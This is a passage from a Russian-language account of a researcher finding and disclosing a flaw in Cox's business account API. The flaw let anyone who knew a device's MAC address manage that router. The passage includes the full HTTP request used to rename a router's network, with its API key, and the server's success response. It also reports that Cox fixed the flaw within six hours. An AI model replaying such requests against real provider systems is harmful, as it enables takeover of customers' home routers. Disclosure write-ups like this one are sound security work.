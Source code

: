 Получить все эти параметры было бы весьма проблематично, но Сэм решил "по приколу" попробовать все параметры секрета выбрать случайными и оставить верным только требуемый mac адрес роутера, на случай если остальные параметры не проверяются при вызове маршрутов на управление роутером. И да, оказалось, что достаточно лишь mac адреса, для вызова этих маршрутов. Чтобы проверить работаспособность метода, он отправил следующий запрос, который должен был изменить SSID (имя сети) его сети на домашнем роутере:

```
POST /api/cbma/accountequipment/services/accountequipment/gatewaydevice/wifisettings HTTP/1.1
Host: myaccount-business.cox.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: application/json, text/plain, */*
Clientid: cbmauser
Apikey: 5d228662-aaa1-4a18-be1c-fb84db78cf13
Cb_session: unauthenticateduser
Authorization: Bearer undefined
Ma_transaction_id: 56583255-1cf3-41aa-9600-3d5585152e87
Connection: close
Content-Type: application/json
Content-Length: 431

{
  "wifiSettings": {
    "customerWifiSsid24": "Curry"
  },
  "additionalProperties": {
    "customerWifiSsid24": [
      "Curry"
    ]
  },
  "encryptedValue": "T0dFek1qTm1OakZoT1RrMk1HSTJPVE0wTnpBek5Ua3pPRFprT0dZeE9ESTZPamhoTnpVMU5UTmxNREF6T1RsaE5XUTVaams1WlRZek16TTNNMlJpWVdVek9qcENVMlp1TjJ0blVsTkNlR1ZhZDJsd05qZGhjWFo0TTJsaVJHSkhlU3N2TUhWVWFYZzJWVTByYzNsT2RYWklMek16VjJ4VldFYzJTMWx5VEVNMVRuSkxOVVF3VFhFek9UVmlUR2RGVFd4RUt6aGFUMnhoZHowOQ=="
}
```

```
HTTP/1.1 200 OK
Server: nginx

{
  "message": "Success"
}
```

В ответ он получил `200 OK` и через некоторое время его роутер перезагрузился с новым SSID... Это означало, что таким методом можно получить доступ к управлению любым роутером в сети провайдера Cox, которая на минуточки насчитывает 6.5 миллионов клиентов. После этого Сэм связался с провайдером, рассказал им про уязвимость после чего в течении 6 часов её устранили

# Итог

Таким образом казалось бы незначительная строчка в логах, тестового сервера и череда удачно выбранных гипотез привели к обнаружению огромнейшей уязвимости в сети большого провайдера, позволяющая управлять любым роутером в их сети.